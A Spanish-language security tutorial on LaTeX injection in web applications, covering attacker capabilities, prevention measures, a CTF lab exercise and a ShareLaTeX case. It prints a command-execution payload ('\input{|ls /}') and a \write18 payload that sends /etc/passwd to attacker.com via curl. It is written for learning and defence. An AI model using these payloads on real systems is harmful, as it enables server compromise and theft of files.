 # LaTeX Injection: Inyección de código en entornos que procesan LaTeX

Las **inyecciones LaTeX** son un tipo de vulnerabilidad que afecta a aplicaciones web que permiten a los usuarios introducir texto formateado con **LaTeX**, un sistema de composición de textos muy utilizado en entornos académicos y científicos.

## ¿En qué consiste la vulnerabilidad?

Una **inyección LaTeX** se produce cuando un atacante introduce código LaTeX malicioso en un campo de entrada de una aplicación web que luego se procesa y compila con un motor LaTeX (como `pdflatex`, `xelatex`, etc.) en el servidor.

Algunos motores de LaTeX permiten la inclusión de comandos que pueden acceder a archivos del sistema, ejecutar comandos del sistema o generar archivos PDF que comprometan la seguridad del entorno.

---

## ¿Qué puede hacer un atacante?

Un atacante podría, por ejemplo:

- Leer archivos sensibles del servidor (`/etc/passwd`, `.ssh/id_rsa`, etc.).
- Ejecutar comandos del sistema si el motor LaTeX lo permite.
- Incluir gráficos o archivos remotos maliciosos.
- Crear archivos PDF con contenido manipulado o con enlaces maliciosos.

---

## Medidas de prevención

Para prevenir ataques de inyección LaTeX:

- **Sanitizar las entradas del usuario:** eliminar caracteres especiales y comandos peligrosos.
- **Ejecutar el compilador LaTeX en entornos aislados** como contenedores o sandboxes (`Docker`, `AppArmor`, etc.).
- **Usar perfiles seguros de compilación:** restringir el uso de comandos inseguros.
- **Aplicar el principio de mínimos privilegios** en los servicios que manejan entradas LaTeX.
- **Monitorear el sistema** ante cualquier comportamiento anómalo.

---

## Ejemplo práctico (laboratorio vulnerable)

Puedes practicar esta vulnerabilidad usando el siguiente laboratorio vulnerable:

🔗 [Internetwache CTF 2016 - LaTeX Injection](https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code)

### Instrucciones básicas:
1. Clona el repositorio:
   ```bash
   git clone https://github.com/internetwache/Internetwache-CTF-2016.git
   cd Internetwache-CTF-2016/tasks/web90/code
```

2. Lanza el servidor (puedes usar `python3 -m http.server` o montar el entorno con Docker).
    
3. Introduce entradas como esta en el formulario LaTeX:
    
    ```latex
    \input{|ls /}
    ```
    
    Esto listará el contenido del directorio raíz si el motor LaTeX no está aislado.
    

---

## Ejemplo real: ShareLaTeX (ahora Overleaf)

En 2016, investigadores de seguridad encontraron que algunas implementaciones de **ShareLaTeX** permitían ejecutar comandos arbitrarios mediante entradas LaTeX maliciosas si no se aplicaban restricciones adecuadas.

**Ejemplo de payload**:

```latex
\immediate\write18{curl http://attacker.com/`cat /etc/passwd`}
```

Este payload envía el contenido de `/etc/passwd` al servidor del atacante, si `\write18` está habilitado, lo cual permite ejecutar comandos de shell en el sistema que compila el LaTeX.

- Fuente: [LaTeX Injection via \write18 - Bishop Fox Labs](https://labs.bishopfox.com/tech-blog/latex-injection)

---

## Recursos adicionales

- [Overleaf Security](https://www.overleaf.com/security)
    
- [LaTeX \write18 documentation](https://www.tug.org/texinfohtml/latex2e.html#Shell-escape)
    
- [Repositorio Internetwache CTF 2016 - Web90](https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code)
    

---

## Conclusión

Las aplicaciones que procesan entradas LaTeX deben tratarse con el mismo nivel de desconfianza que cualquier otra entrada del usuario. Las inyecciones LaTeX pueden permitir desde filtración de información hasta ejecución de comandos en el servidor si no se toman las medidas adecuadas de aislamiento y validación.

---

